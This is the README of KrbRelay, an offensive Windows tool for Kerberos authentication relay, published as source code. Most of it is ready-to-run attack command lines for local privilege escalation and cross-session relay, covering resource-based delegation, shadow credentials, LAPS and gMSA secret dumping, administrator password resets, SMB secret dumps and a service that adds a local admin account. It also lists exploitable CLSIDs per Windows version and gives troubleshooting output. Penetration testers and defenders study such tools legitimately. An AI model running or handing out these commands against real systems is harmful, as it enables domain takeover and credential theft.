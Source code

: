 # KrbRelay

Relaying 3-headed dogs.
More details at https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html and https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html

This should be working on most fully patched Windows systems. There may be difficulties with Server OS in lab environments because of the firewall blocking the OXID resolver however, this will most likely not be an issue during real life engagements, same goes for CLSIDs.

![image-20220213094644590](Images/image-20220213094644590.png)

### Supported Protocols and Features

Some protocols are more completed than others, PR's are welcomed. 

* LLMNR

* LDAP/LDAPS
* HTTP
  * EWS
* SMBv2
* RPC over SMB
  * MS-SAMR
  * MS-SCMR
  * MS-RPRN
  * MS-RRP
  * MS-LSAT/MS-LSAD

### Examples

````
# LPE
.\KrbRelay.exe -spn ldap/dc01.htb.local -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -rbcd S-1-5-21-2982218752-1219710089-3973213059-1606
.\KrbRelay.exe -spn ldap/dc01.htb.local -clsid 90f18417-f0f1-484e-9d3c-59dceee5dbd8 -shadowcred

# Cross-Session LDAP
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -shadowcred
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -shadowcred win2016$
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -rbcd S-1-5-21-2982218752-1219710089-3973213059-1606 win2016$
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -add-groupmember srv_admins domain_user
.\KrbRelay.exe -spn ldap/dc01.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -laps
.\KrbRelay.exe -spn ldap/dc02.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -ssl -gmsa
.\KrbRelay.exe -spn ldap/dc02.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -ssl -reset-password administrator Password123!

# Cross-Session HTTP
.\KrbRelay.exe -spn http/exchange.htb.local -endpoint EWS/Exchange.asmx -ssl -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -ews-search beta,test
.\KrbRelay.exe -spn http/exchange.htb.local -endpoint EWS/Exchange.asmx -ssl -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -ews-delegate domain_user@htb.local
.\KrbRelay.exe -spn http/win2016.htb.local -endpoint iisstart.htm -proxy -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182

# Cross-Session SMB
.\KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -console
.\KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -add-privileges (([System.Security.Principal.WindowsIdentity]::GetCurrent()).User.Value)
.\KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -secrets 
.\KrbRelay.exe -spn cifs/win2016.htb.local -session 2 -clsid 354ff91b-5e49-4bdc-a8e6-1cb6c6877182 -service-add addUser "C:\windows\system32\cmd.exe /c """"C:\windows\system32\net user cube Password123! /add && C:\windows\system32\net localgroup administrators cube /add"""""

# LLMNR
.\KrbRelay.exe -llmnr -spn 'cifs/win2019.htb.local' -secrets
````

 `CheckPort.exe` is a C# tool that can be used to discover available ports for the OXID resolver.

```
C:\Users\domain_user\Desktop\KrbRelay\CheckPort\bin\Release\CheckPort.exe
[*] Looking for available ports..
[*] Port: 1024 is available
```



## CLSIDs

We'll need to unmarshal our OBJREF inside of a process that would allow authentications over the network, this can be verified by looking at the `Impersonation Level` 

* RPC_C_IMP_LEVEL_DEFAULT			 # Will not work
* RPC_C_IMP_LEVEL_ANONYMOUS    # Will not work
* RPC_C_IMP_LEVEL_IDENTIFY             # Works for LDAP
* RPC_C_IMP_LEVEL_IMPERSONATE   # Required for SMB
* RPC_C_IMP_LEVEL_DELEGATE

When relaying to LDAP or any other service that has signing enabled but not enforced we would also need to verify that the `Authentication Level` of the process is set to `RPC_C_AUTHN_LEVEL_CONNECT`.

Processes running under `NT Authority\Network service` will use the SYSTEM account when authenticating over the network.

Tool for discovering CLSIDs: https://github.com/tyranid/oleviewdotnet

```powershell
Import-Module .\OleViewDotNet.psd1
Get-ComDatabase -SetCurrent
$comdb = Get-CurrentComDatabase
$clsids = (Get-ComClass).clsid
Get-ComProcess -DbgHelpPath 'C:\Program Files (x86)\Windows Kits\10\Debuggers\x64\dbghelp.dll' | select ProcessId,ExecutablePath,Name,AppId,User,AuthnLevel,ImpLevel
```



#### Windows 10 1903

```
# SYSTEM Relay
0bae55fc-479f-45c2-972e-e951be72c0c1 # RPC_C_IMP_LEVEL_IDENTIFY
90f18417-f0f1-484e-9d3c-59dceee5dbd8 # RPC_C_IMP_LEVEL_IMPERSONATE 

# Cross-Session Relay
0289a7c5-91bf-4547-81ae-fec91a89dec5 # RPC_C_IMP_LEVEL_IMPERSONATE 
1f87137d-0e7c-44d5-8c73-4effb68962f2 # RPC_C_IMP_LEVEL_IMPERSONATE 
73e709ea-5d93-4b2e-bbb0-99b7938da9e4 # RPC_C_IMP_LEVEL_IMPERSONATE 
9678f47f-2435-475c-b24a-4606f8161c16 # RPC_C_IMP_LEVEL_IMPERSONATE 
9acf41ed-d457-4cc1-941b-ab02c26e4686 # RPC_C_IMP_LEVEL_IMPERSONATE 
ce0e0be8-cf56-4577-9577-34cc96ac087c # RPC_C_IMP_LEVEL_IMPERSONATE 
```

#### Server 2019
```
# SYSTEM Relay
90f18417-f0f1-484e-9d3c-59dceee5dbd8 # RPC_C_IMP_LEVEL_IMPERSONATE

# Cross-Session Relay
354ff91b-5e49-4bdc-a8e6-1cb6c6877182 # RPC_C_IMP_LEVEL_IMPERSONATE 
38e441fb-3d16-422f-8750-b2dacec5cefc # RPC_C_IMP_LEVEL_IMPERSONATE 
f8842f8e-dafe-4b37-9d38-4e0714a61149 # RPC_C_IMP_LEVEL_IMPERSONATE 
```

#### Server 2016
```
# SYSTEM Relay
90f18417-f0f1-484e-9d3c-59dceee5dbd8 # RPC_C_IMP_LEVEL_IMPERSONATE

# Cross-Session Relay
0289a7c5-91bf-4547-81ae-fec91a89dec5 # RPC_C_IMP_LEVEL_IMPERSONATE
1f87137d-0e7c-44d5-8c73-4effb68962f2 # RPC_C_IMP_LEVEL_IMPERSONATE
5f7f3f7b-1177-4d4b-b1db-bc6f671b8f25 # RPC_C_IMP_LEVEL_IMPERSONATE
73e709ea-5d93-4b2e-bbb0-99b7938da9e4 # RPC_C_IMP_LEVEL_IMPERSONATE
9678f47f-2435-475c-b24a-4606f8161c16 # RPC_C_IMP_LEVEL_IMPERSONATE
98068995-54d2-4136-9bc9-6dbcb0a4683f # RPC_C_IMP_LEVEL_IMPERSONATE
9acf41ed-d457-4cc1-941b-ab02c26e4686 # RPC_C_IMP_LEVEL_IMPERSONATE
bdb57ff2-79b9-4205-9447-f5fe85f37312 # RPC_C_IMP_LEVEL_IMPERSONATE
ce0e0be8-cf56-4577-9577-34cc96ac087c # RPC_C_IMP_LEVEL_IMPERSONATE
```



## Error codes

Doesn't work the first time? try again then check these error codes, and if you are going to open an Issue, please paste the full output.

#### Firewall blocking the OXID resolver

```
System.Runtime.InteropServices.COMException (0x800706BA): The RPC server is unavailable. (Exception from HRESULT: 0x800706BA)
```
#### Bad CLSID

```
System.Runtime.InteropServices.COMException (0x80080004): Bad path to object (Exception from HRESULT: 0x80080004 (CO_E_BAD_PATH))
```
#### Kerberos Issues (Authentication type not recognized), Will work after reboot/clock sync

```
System.Runtime.InteropServices.COMException (0x800706D3): The authentication service is unknown.
```

#### Parsing Error, valid apRep tickets starts with 0x6f

```
[*] apRep1: fe534d4240000100160000c00100010001000000000000000100000000000000000000000000000035000000006c0000000000000000000000000000000000000900000048006000605e06092a864886f71201020203007e4f304da003020105a10302011ea411180f32303232303230373134303935325aa5050203045ad0a603020121a90b1b094854422e4c4f43414caa153013a003020101a10c300a1b0877696e3230313624
[*] AcceptSecurityContext: SEC_I_CONTINUE_NEEDED
[*] fContextReq: Delegate, MutualAuth, UseDceStyle, Connection
System.UnauthorizedAccessException: Access is denied.

Access is denied.
```

#### A valid apReq starts with 0x60, check your environment and parameters

```
[*] apReq: 05000b0710000000db003300020<SNIP>
```

#### CLSID impersonation level or authentication level too low

```
[*] fContextReq: Delegate, MutualAuth, UseDceStyle, Connection
System.UnauthorizedAccessException: Access is denied.

Access is denied.
```



### Acknowledgements

* [Vletoux ](https://twitter.com/mysmartlogon) for starting [RPCForSMBLibrary](https://github.com/vletoux/RPCForSMBLibrary)
* [James Forshaw](https://twitter.com/tiraniddo) for introducing Kerberos relaying and [NtApiDotNet](https://github.com/googleprojectzero/sandbox-attacksurface-analysis-tools/tree/main/NtApiDotNet)
* [TalAloni](https://github.com/TalAloni/) for [SMBLibrary](https://github.com/TalAloni/SMBLibrary)
* [MichaelGrafnetter](https://twitter.com/mgrafnetter) for [DSInternals](https://github.com/MichaelGrafnetter/DSInternals)
* [Kevin Robertson](https://twitter.com/kevin_robertson) for [Inveigh](https://github.com/Kevin-Robertson/Inveigh)
